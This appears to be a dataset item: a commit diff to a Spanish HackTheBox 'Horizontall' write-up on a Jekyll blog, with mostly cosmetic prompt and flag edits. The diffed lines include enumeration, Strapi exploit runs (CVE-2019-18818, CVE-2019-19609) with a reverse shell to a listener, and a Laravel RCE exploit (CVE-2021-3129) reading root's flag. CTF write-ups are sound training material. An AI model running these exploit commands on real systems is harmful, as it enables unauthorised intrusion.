

Before and after one commit to WildZarek/wildzarek.github.io, a Jekyll site: the page built from _posts/2022-02-05-horizontall-htb.md, in a window 1280 px wide. Shown: the part 2386-4306 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Minor changes

````diff
--- a/_posts/2022-02-05-horizontall-htb.md
+++ b/_posts/2022-02-05-horizontall-htb.md
@@ -38,7 +38,7 @@ Empezamos el reconocimiento lanzando un **`TCP SYN Port Scan`** con **`Nmap`** p
 | -oG       | Guarda el output en un archivo con formato grepeable para usar la función [extractPorts](https://pastebin.com/tYpwpauW) de [S4vitar](https://s4vitar.github.io/)
 
 ```console
-any0ne@Pentesting:~$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.105 -oG allPorts
+p3ntest1ng:~$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.105 -oG allPorts
 
 Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
 Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 18:22 CET
@@ -79,7 +79,7 @@ Vamos a realizar un escaneo específico de los puertos encontrados para obtener
 | -oN       | Guarda el output en un archivo con formato normal      |
 
 ```console
-any0ne@Pentesting:~$ nmap -sCV -p22,80 10.10.11.105 -oN targeted
+p3ntest1ng:~$ nmap -sCV -p 22,80 10.10.11.105 -oN targeted
 
 Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 18:30 CET
 Nmap scan report for horizontall.htb (10.10.11.105)
@@ -103,11 +103,11 @@ Nmap done: 1 IP address (1 host up) scanned in 10.86 seconds
 Veamos con qué está construida la página web, para ello ejecutamos la herramienta **`whatweb`** no sin antes añadir el virtualhost a nuestro archivo **`/etc/hosts`**
 
 ```console
-any0ne@Pentesting:~$ echo '10.10.11.105 horizontall.htb' | sudo tee -a /etc/hosts
+p3ntest1ng:~$ echo '10.10.11.105 horizontall.htb' | sudo tee -a /etc/hosts
 ```
 
 ```console
-any0ne@Pentesting:~$ whatweb http://horizontall.htb/
+p3ntest1ng:~$ whatweb http://horizontall.htb/
 
 http://horizontall.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.105], Script, Title[horizontall], X-UA-Compatible[IE=edge], nginx[1.14.0]
 ```
@@ -119,10 +119,10 @@ Primero usando un diccionario pequeño y si no encontramos nada usaremos uno má
 | --------- | :---------- |
 | -c        | Muestra el output en formato colorizado |
 | -w        | Utiliza el diccionario especificado |
-| --hc=404  | Oculta todos los códigos de estado 404 |
+| --hc 404  | Oculta todos los códigos de estado 404 |
 
 ```console
-any0ne@Pentesting:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc=404 http://horizontall.htb/FUZZ 2>/dev/null
+p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 http://horizontall.htb/FUZZ 2>/dev/null
 
 ********************************************************
 * Wfuzz 3.1.0 - The Web Fuzzer                         *
@@ -154,14 +154,13 @@ Tampoco conseguimos ninguna información relevante con esto, vamos a comprobar s
 | --------- | :---------- |
 | -c        | Mostrar el output en formato colorizado |
 | -w        | Utiliza el diccionario especificado |
-| --hc=404  | Oculta los códigos de estado 404 |
-| --hw=2081 | Oculta todos los resultados que tengan 2081 palabras |
+| --hc 301,404 | Oculta los códigos de estado 301 y 404 |
 | -H        | Realiza una consulta de tipo header |
 | -u        | Especifica la URL para la consulta |
 | -t        | Nos permite lanzar el comando con N threads |
 
 ```console
-any0ne@Pentesting:~$ wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hc=301,404 -H "Host: FUZZ.horizontall.htb" -u http://horizontall.htb -t 100 2>/dev/null
+p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 301,404 -H "Host: FUZZ.horizontall.htb" -u http://horizontall.htb -t 100 2>/dev/null
 
 ********************************************************
 * Wfuzz 3.1.0 - The Web Fuzzer                         *
@@ -186,7 +185,7 @@ Requests/sec.: 324.1928
 Hemos dado con un subdominio interesante, así que vamos a añadirlo a nuestro **`/etc/hosts`** para poder verlo.
 
 ```console
-any0ne@Pentesting:~$ echo '10.10.11.105 api-prod.horizontall.htb' | sudo tee -a /etc/hosts
+p3ntest1ng:~$ echo '10.10.11.105 api-prod.horizontall.htb' | sudo tee -a /etc/hosts
 ```
 
 ## Fase de Explotación
@@ -210,7 +209,7 @@ Realizando una búsqueda rápida en Google encontramos que esta versión es vuln
 Nos descargamos el [exploit](https://www.exploit-db.com/exploits/50239) y lo ejecutamos siguiendo las intrucciones:
 
 ```console
-any0ne@Pentesting:~$ python3 exploit-CVE-2019-18818.py http://api-prod.horizontall.htb/
+p3ntest1ng:~$ python3 exploit-CVE-2019-18818.py http://api-prod.horizontall.htb/
 ```
 
 ![Strapi Exploited](/assets/images/hackthebox/horizontall/strapi_exploit.png)
@@ -224,7 +223,7 @@ Para ello necesitamos el token **`JWT`** pero afortunadamente el exploit anterio
 Vamos a utilizar [otro exploit](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT) para obtener la shell, pero primero nos ponemos en escucha con **`nc -nlvp 9999`**
 
 ```console
-any0ne@Pentesting:~$  python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM5OTQ2MDQwLCJleHAiOjE2NDI1MzgwNDB9.Mqaypv9YCdphfV10JvjPU_9mfw7jI_YYgL5hAAOIRL8 -l 10.10.14.253 -p 9999
+p3ntest1ng:~$ python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM5OTQ2MDQwLCJleHAiOjE2NDI1MzgwNDB9.Mqaypv9YCdphfV10JvjPU_9mfw7jI_YYgL5hAAOIRL8 -l 10.10.14.253 -p 9999
 ```
 
 ![Strapi Shell](/assets/images/hackthebox/horizontall/got_shell.png)
@@ -328,7 +327,7 @@ Ya estamos listos para iniciar nuestro [Port-Forwarding](https://es.wikipedia.or
 De ese modo podemos navegar a nuestro localhost y ver qué se está ejecutando en este puerto.
 
 ```console
-any0ne@Pentesting:~$ ssh -i wildzarek -L 8000:127.0.0.1:8000 strapi@horizontall.htb
+p3ntest1ng:~$ ssh -i wildzarek -L 8000:127.0.0.1:8000 strapi@horizontall.htb
 
 Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
 
@@ -358,13 +357,13 @@ Abrimos en el navegador la URL **`http://localhost:8000/`** y vemos un panel Lar
 Por suerte encontrar el exploit es bastante sencillo así que lo descargamos y lo ejecutamos.
 
 ```console
-any0ne@Pentesting:~$ git clone https://github.com/nth347/CVE-2021-3129_exploit
-any0ne@Pentesting:~$ cd CVE-2021-3129_exploit
-any0ne@Pentesting:~$ chmod +x exploit.py
+p3ntest1ng:~$ git clone https://github.com/nth347/CVE-2021-3129_exploit
+p3ntest1ng:~$ cd CVE-2021-3129_exploit
+p3ntest1ng:~$ chmod +x exploit.py
 ```
 
 ```console
-any0ne@Pentesting:~$ python exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
+p3ntest1ng:~$ python exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
 
 [i] Trying to clear logs
 [+] Logs cleared
@@ -383,5 +382,7 @@ las copiamos a nuestra máquina, le otorgamos los permisos adecuados y nos conec
 
 ### ¡Gracias por leer hasta el final!
 
-#### Y eso ha sido todo. Una máquina bastante asequible y fácil de realizar, quitando el redireccionamiento de puertos, lo demás ha sido enumeración y tirar de CVE's ya existentes. Recomendable si estás empezando en la plataforma y tienes pocas máquinas hechas.
+Y eso ha sido todo. Una máquina bastante asequible y fácil de realizar, quitando el redireccionamiento de puertos,
+lo demás ha sido enumeración y tirar de CVE's ya existentes. Recomendable si estás empezando en la plataforma y tienes pocas máquinas hechas.
+
 #### Nos vemos en un próximo. ¡Feliz hacking! ☠
````
